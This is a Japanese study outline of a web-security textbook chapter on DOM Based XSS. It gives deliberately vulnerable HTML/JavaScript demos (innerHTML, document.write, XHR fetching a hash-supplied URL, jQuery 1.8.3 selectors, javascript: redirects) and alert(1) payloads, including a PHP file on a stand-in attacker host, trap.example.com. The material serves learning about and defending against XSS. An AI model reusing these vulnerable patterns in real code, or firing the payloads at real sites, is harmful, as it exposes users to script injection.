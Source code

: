 # 徳丸本
- ## 4章 Webアプリケーションの機能別に見るセキュリティバグ(続き)
- ### 4.17 JavaScriptの問題
- #### 4.17.1 DOM Based XSS
	- DOM(Document Object Model)とはJavaScriptからHTMLを操作するための仕組み
		- 例えばexample.comをChromeで開いて、DevToolsのConsoleタブで以下を実行する
			- ```js
			  document.getElementsByTagName("h1")[0].textContent = "Hoge Domain";
			  ```
		- するとページ中の`Example Domain`と書いてあった部分が`Hoge Domain`に変化する
	- 反射型XSS、持続型XSSとは別にDOMが原因で発生するXSSをDom Based XSSと呼ぶ
	- 反射型XSSや持続型XSSはサーバ上で悪意あるスクリプトを含むHTMLが生成される一方で、DOM Based XSSはブラウザ上で生成されるという特徴がある
		- DOM Based XSSはPCでHTMLファイルを作って、それをブラウザで開くだけで試すことが出来る
	- innerHTMLによるDOM Based XSS
		- 以下の内容のHTMLファイルを作成する
			- ```html
			  <h1>DOM Based XSS</h1>
			  <p id="hoge"></p>
			  <script>
			  var hoge = document.getElementById("hoge");
			  var hashValue = decodeURI(location.hash.slice(1));
			  hoge.innerHTML = hashValue;
			  </script>
			  ```
		- このHTMLファイルをブラウザで開く
		- URLの末尾に`#あ`をつけてリロードしてみると、`あ`が画面に表示される(2回リロードしないといけないかも)
			- location.hashは`#`から始まるのでsliceで`#`を除いている
			- decodeURIはパーセントエンコードされた文字列を元に戻す関数([参考](https://www.tohoho-web.com/js/builtin.htm#encode))
			- decodeURIがない場合は`あ`ではなく`%E3%81%82`が表示される
		- `#`の後に続く文字列はフラグメント識別子と呼ばれる
			- ↑のdecodeURIの参考リンク( https://www.tohoho-web.com/js/builtin.htm#encode ) でフラグメント識別子が使われており、フラグメント識別子を起点としてページが表示されていることが分かる
			- 他にもe-wordsでは、テキストを紫色のマーカーで強調表示するのにフラグメント識別子が使われていたりする
		- フラグメント識別子を`<img src=/ onerror=alert(1)>`にして表示すると、alert(1)が実行される
			- DevToolsのElementsタブを見ると、以下のHTMLが構築されていることが分かる
				- ```html
				  <p id="hoge"><img src="/" onerror="alert(1)"></p>
				  ```
			- 画像の読み込みに失敗するのでonerrorで指定した処理が実行される
		- フラグメント識別子を`<script>alert(1)</script>`にしてもalert(1)が実行されるように思われるが、実行されない
			- HTML5で、innerHTMLで埋め込んだscriptタグは実行されないと規定されているらしい([参考](https://zenn.dev/k41531/articles/44b6dbd5f67ff9))
		- 作成したHTMLファイルは攻撃例としては分かりやすいが、実際にフラグメント識別子をDOMを使って表示内容に組み込むといったことは多分無いだろう
	- docuemnt.writeによるDOM Based XSS
		- innerHTMLでscriptタグを埋め込んでも実行されなかったが、document.writeでは実行される
		- HTMLファイルを以下のように修正する
			- ```html
			  <h1>DOM Based XSS</h1>
			  <script>
			  var hoge = document.getElementById("hoge");
			  var hashValue = decodeURI(location.hash.slice(1));
			  document.write(hashValue);
			  </script>
			  ```
		- フラグメント識別子を`<script>alert(1)</script>`にするとalert(1)が実行される
	- XMLHttpRequestのURL未検証の問題
		- innerHTMLやdocument.writeによるDOM Based XSSの例として、XHRで取得した他のHTMLファイルの内容を埋め込む、というものもある
		- これはサーバがないと試せない
		- 以下のようなHTMLファイルを考える
			- ```html
			  <h1>DOM Based XSS</h1>
			  <a href="#hoge">hoge</a>
			  <div id="content"></div>
			  <script>
			  var req = new XMLHttpRequest();
			  var url = location.hash.slice(1) + '.html';
			  req.open("GET", url);
			  req.onreadystatechange = function() {
			    if (req.readyState == 4 && req.status == 200) {
			      var div = document.getElementById("content");
			      div.innerHTML = req.responseText;
			    };
			  };
			  req.send(null);
			  </script>
			  ```
			- フラグメント識別子で指定されたHTMLファイルをXHRで取得し、その内容を埋め込む
			- \http://example.jp/index.html\#hogeにアクセスしたなら、XHRのリクエスト先は\http://example.jp/hoge.htmlのようになる
			- [XHRのreadyStateについて](https://developer.mozilla.org/ja/docs/Web/API/XMLHttpRequest/readyState)
		- フラグメント識別子で攻撃者が用意したサーバのスクリプトを指定することで攻撃が可能
			- 例えば、http://trap.example.comにattack.phpという名前で以下のファイルを置く
				- ```php
				  <?php header('Access-Control-Allow-Origin: http://example.jp'); ?>
				  <img src=/ onerror=alert(1)>
				  ```
			- そしてフラグメント識別子を`//trap.example.com/attack.php`にする
				- これによってXHRのリクエスト先がhttp://trap.example.com/attack.phpになる
				- Access-Control-Allow-Originヘッダをhttp://example.jpにしているので、http://example.jpからhttp://trap.example.comへのリクエストは許可される
			- 以下のHTMLが構築され、alert(1)が実行される
				- ```html
				  <div id="content"><img src="/" onerror="alert(1)"></div>
				  ```
	- jQueryのセレクタの動的生成によるXSS
	  id:: 65034386-9cb7-4f83-b9ec-9c969ec505b2
		- jQueryにはセレクタと呼ばれる操作したいHTMLタグを指定する機能がある
		- セレクタはjQuery()という関数で利用出来るが、多くの場合は$()という別名で利用される
			- `$('#idname')` : id属性がidnameであるものを取得
			- `$('.classname')` : class属性がclassnameであるものを取得
			- `$('input[name="foo"]')` : inputタグでname属性がfooのものを取得
			- `$('<p>hoge</p>')` : pタグを作る
				- `$('body').append($('<p>hoge</p>'))`のようにしてHTMLに追加出来る([参考](https://www.koikikukan.com/archives/2013/07/16-003333.php))
		- 以下の内容のHTMLファイルを作成する
			- ```html
			  <h1>DOM Based XSS</h1>
			  <script src="https://cdnjs.cloudflare.com/ajax/libs/URI.js/1.19.0/URI.min.js"></script>
			  <script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/1.8.3/jquery.min.js"></script>
			  <form id="form1">
			  <input type="radio" name="color" value="1">赤<br>
			  <input type="radio" name="color" value="2">緑<br>
			  <input type="radio" name="color" value="3">青<br>
			  </form>
			  <script>
			  var uri = new URI();
			  var color = uri.query(true).color;
			  if (!color) color = 1;
			  $(`input[name="color"][value="${color}"]`).attr("checked", true);
			  </script>
			  ```
			- jQueryの他にクエリパラメータを簡単に扱うためのURI.min.jsをCDNから読み込んでいる([参考](https://thebaker.hatenablog.com/entry/2018/02/08/154315))
		- `?color=1`なら赤が選択された状態、`?color=2`なら緑が選択された状態、`?color=3`なら青が選択された状態になる
		- `?color="]<img src=/ onerror=alert(1)>`とすると、alert(1)が実行される
			- 以下のスクリプトが実行される
				- ```js
				  $(`input[name="color"][value=""]<img src=/ onerror=alert(1)>"]`).attr("checked", true);
				  ```
			- HTMLには追加されないが`<img src=/ onerror=alert(1)>`が作成されることによって、alert(1)が実行される
		- バージョン1.8.3のjQueryだと再現出来たが、バージョン1.9.0だとSyntax Errorとなった
			- Uncaught Error: Syntax error, unrecognized expression: input[name="color"][value=""]<img src=/ onerror=alert(1)>"]
		- html()でも同様にXSSが起こる([参考](https://js.studio-kingdom.com/jquery/manipulation/html))
		- 他にもappendで追加するHTMLをエスケープせずにXSSとなるケースもある([参考](https://qiita.com/miya_zato/items/7ea57326c86a198fcf08#dom-based-xss))
	- javascriptスキームによるXSS
		- 以下の内容のHTMLファイルを作成する
			- ```html
			  <h1>DOM Based XSS</h1>
			  <input type="button" value="実行" onclick="go()">
			  <script>
			  const go = () => {
			    var url = location.hash.slice(1);
			    location.href = url;
			  };
			  </script>
			  ```
			- 実行ボタンを押すと、フラグメント識別子で指定されたURLにリダイレクトする
			- \http://example.jp/index.html\#hogeにアクセスして、実行ボタンを押したら\http://example.jp/hoge.htmlにリダイレクトする
		- フラグメント識別子を`javascript:alert(1)`にして実行ボタンを押すとalert(1)が実行される
			- ((64d87ad2-9abb-4302-80b8-7bc3eb5b6542)) に関連している